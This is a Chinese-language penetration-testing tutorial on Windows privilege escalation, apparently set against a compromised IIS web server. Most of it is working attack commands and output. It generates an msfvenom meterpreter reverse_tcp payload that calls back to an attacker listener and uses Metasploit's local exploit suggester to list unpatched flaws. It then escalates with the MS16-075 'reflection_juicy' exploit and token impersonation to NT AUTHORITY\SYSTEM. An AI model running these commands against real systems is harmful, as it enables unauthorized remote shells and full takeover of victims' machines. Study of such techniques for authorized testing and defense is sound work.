








## 1、 windows 补丁审计工具使用

在终端下可以使用命令systeminfo 来查看系统的一些补丁信息 

导出目标系统信息：http://www.demo1.com/asp.aspx 

```bash
systeminfo >C:\inetpub\wwwroot\www.demo1.com\systeminfo.txt
```


补丁检测：[Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester)

```bash
git clone https://github.com/GDSSecurity/Windows-Exploit-Suggester.git
```

安装pip

```bash
#pip3 
curl -s https://bootstrap.pypa.io/get-pip.py | python3
#pip2
curl https://bootstrap.pypa.io/pip/2.7/get-pip.py -o get-pip.py | python
#检测版本
pip -V 
```

首先安装xlrd1.20库

```bash
pip install xlrd==1.2.0
```

更新漏洞补丁库

```bash
./windows-exploit-suggester.py --update
```

生成2021-05-01-mssb.xls

  

查找可以利用的补丁

```bash
./windows-exploit-suggester.py --database 2021-05-01-mssb.xls --systeminfo systeminfo.txt >exp.txt 
```

里面有详细的说明可以漏洞利用的exp

 查找指定系统的可以用的漏洞

```bash
./windows-exploit-suggester.py --database 2021-05-01-mssb.xls --ostext 'windows server 2008 r2'
```

 

显示可利用的本地提权的条目

```bash
./windows-exploit-suggester.py  --audit -l --database 2021-05-01-mssb.xls --systeminfo systeminfo.txt >win2008-day.txt
```

如果补丁没有打上的情况下，就会显示可以利用的ms编号 exp的地址和描述

提权exp windows-kernel-exploits

https://github.com/SecWiki/windows-kernel-exploits

 

## 2、msf结合windows-exploit-suggester使用

生成攻击载核

```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.31.150  lport=12345 -f exe >/var/www/html/s.exe
```

监听

```bash
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.31.150
set lport 12345
exploit
```

上传文件

得到一个低权限的shell



background 返回 模块选择的命令 把session 放到后台

使用suggester模块 

```bash
use post/multi/recon/local_exploit_suggester
show options
set SESSION 1
exploit
```

 

这里就是列出没有修补的漏洞

[*] 192.168.31.105 - Collecting local exploits for x86/windows...
[\*] 192.168.31.105 - 29 exploit checks are being tried...
[+] 192.168.31.105 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The target service is running, but could not be validated.
[+] 192.168.31.105 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 192.168.31.105 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

使用模块windows/local/ms16_075_reflection_juicy 进行

```bash
use windows/local/ms16_075_reflection_juicy
show options //查看参数
set SESSION 1
exploit
```

 

得到系统权限。

## 3、使用MS16-075提权

选择第一个session ：sessions 1

```bash
use incognito
list_tokens -u    //列出tokens
execute -cH -f C:/inetpub/wwwroot/www.demo1.com/potato.exe   //执行exp
list_tokens -u
impersonate_token "NT AUTHORITY\\SYSTEM"   //提权
```



这个要多试用多次 方可成功